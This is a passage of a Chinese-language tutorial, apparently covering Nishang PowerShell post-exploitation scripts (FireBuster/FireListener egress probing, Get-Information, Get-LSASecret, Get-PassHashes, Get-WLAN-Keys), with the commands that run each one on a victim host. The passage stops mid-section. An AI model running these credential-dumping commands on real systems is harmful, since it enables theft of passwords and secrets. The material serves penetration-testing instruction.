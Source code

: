 #### FireBuster FireListener
FireBuster可以对内网进行扫描，它会把包发给FireListener
执行方式：

```powershell
PS > FireBuster 10.10.10.10 1000-1020
PS > FireListener -portrange 1000-1020
```
该脚本作者的Github上面还提供了一个Python版的监听端：
https://github.com/roo7break/PowerShell-Scripts/blob/master/FireBuster/
测试
我们首先在我们的机器（Attacker）上面运行FireListener：

```powershell
FireListener 100-110
```
![FireListener](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/FireListener.jpg)
Victim：

```powershell
FireBuster 192.168.199.1 90-110 -Verbose
```
![FireBuster](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/firebuster.jpg)

#### Get-Information
这个脚本可以获取目标机器上大量的信息（FTP访问，进程，计算机配置信息，无线网络和设备的信息，Hosts信息等等非超丰富）。
执行方式：

```powershell
PS > Get-Information
```
![get-info](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/get-info.jpg)
还可以用我们前面说过的Out-File来将运行结果保存到指定文件。
#### Get-LSASecret
该脚本可以获取LSA信息，但是使用的前提当然是你已经成功提升了权限的情况下，通常和我们后面提权当中涉及到的Enable-DuplicateToken（帮助我们获得System权限）联合使用。
执行方式：

```powershell
PS > Enable-DuplicateToken
PS > Get-LsaSecret
PS > Get-LsaSecret -RegistryKey KeyName //还可以指定键名
```
#### Get-PassHashes
这个脚本在Administrator的权限下，可以dump出密码哈希值。这个脚本来自于msf中powerdump，但做出了修改，使得我们不再需要System权限就可以dump了。
执行方式：

```powershell
PS > Get-PassHashes -PSObjectFormat //可以使用-PSObjectFormat来格式化输出结果
```
![Get-PassHashes](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/get-passhashes.jpg)
#### Get-WLAN-Keys
在Administrator的权限下，可以利用这个脚本来dump出WLAN文件的密钥信息。实质上，这个脚本就是利用了netsh wlan show profile name="" key=clear来获取。
执行方式：
